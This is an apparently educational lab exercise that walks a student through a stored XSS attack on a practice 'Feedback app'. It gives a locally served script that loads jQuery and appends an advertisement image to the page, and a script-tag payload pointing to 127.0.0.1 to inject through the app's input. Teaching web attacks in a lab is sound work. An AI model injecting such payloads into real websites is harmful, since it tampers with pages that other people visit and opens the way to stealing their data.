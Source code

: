 Show ads using XSS attack
======================
In this activity, you will perform XSS attack and add script to show advertisement on the webpage

<img src= "https://s3-whjr-curriculum-uploads.whjr.online/3e51a017-9fab-46bc-b246-94f171ccb3b5.gif" width = "100%" height = "50%">


Follow the given steps to complete this activity.


1. Open the script in `ScriptServer/static` folder.
   * Include jQuery from CDN
   ```
   var script = document.createElement('script');
   script.src = 'https://code.jquery.com/jquery-3.6.4.min.js';
   document.head.appendChild(script);
   ```
2. Write script to add advertisement to the `body` of html page
   * Add flag variable to check if advertisement is added or not.
   ```
   var advertisementAdded = false;
   ```
   * Check the value of flag variable and if advertisement is not added then add advertisement
   ```
   if (advertisementAdded == false) {
      var advertisementHTML = '<img style="width: 45%" src="https://s3-whjr-curriculum-uploads.whjr.online/8c849248-90b4-4752-93b4-8bdc0ae5a2cb.png">';

      $('body').append(advertisementHTML);

      advertisementAdded = true;
   }

   ```
3. Run the Feedback app and perform XSS attack by adding following script:
```
<script src="http://127.0.0.1:5000/script"></script>
```

Check if the advertisement is shown after the attack is performed.
